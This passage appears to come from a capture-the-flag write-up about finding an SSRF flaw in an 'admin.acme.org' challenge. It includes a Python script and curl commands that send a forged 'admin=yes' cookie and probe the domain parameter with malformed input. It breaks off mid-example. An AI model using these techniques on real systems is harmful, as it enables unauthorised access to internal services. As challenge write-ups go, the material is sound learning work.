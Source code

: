 > echo "SGVsbG8gV29ybGQhCg==" |base64 -d

```
Hello World!
```

## Get SSRF

As I thought, the page seems to take the provided domain and fetch data from it.
This is a classic situation were there could be room for a SSRF vulnerability.
To be able to work with this more methodically, I created a small Python script, looking something like the one below, to automate the fetching and decoding of domains.
Using this script I started to manually "fuzz" the API by providing various malformed domains in different formats.

{% highlight python %}
#!/usr/bin/env python
import requests
import base64

URL = 'http://admin.acme.org'

TARGET = '212.zeta-two.com'

r = requests.post(URL + '/index.php', headers={'Content-Type': 'application/json'}, json={'domain': TARGET}, cookies={'admin':'yes'})
print(r.headers)
print(r.text)
path2 = r.json()['next']
print('Next: %s' % path2)
read_id = int(path2.split('id=')[-1])
print('Next ID: %d' % read_id)

r = requests.get(URL + '/read.php?id=%d' % read_id + '', cookies={'admin':'yes'})
print(r.headers)
result_text = base64.b64decode(r.json()['data'])
print('Res: "%s"' % result_text)
{% endhighlight %}

To expand on my previous knowledge on this, I used [Orange's materials on SSRF](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) as a source of inspiration.
After a while a noticed that there was something strange going on when I used newlines in the domain. Specifically I finally noticed that when using newlines, the id returned from the first request increased by more than 1.
It looked something like this

> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{"domain":"212.zeta-two.com"}' 

```
{"next":"\/read.php?id=9"}
```
  
  
> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{"domain":"212.zeta-two.com"}'
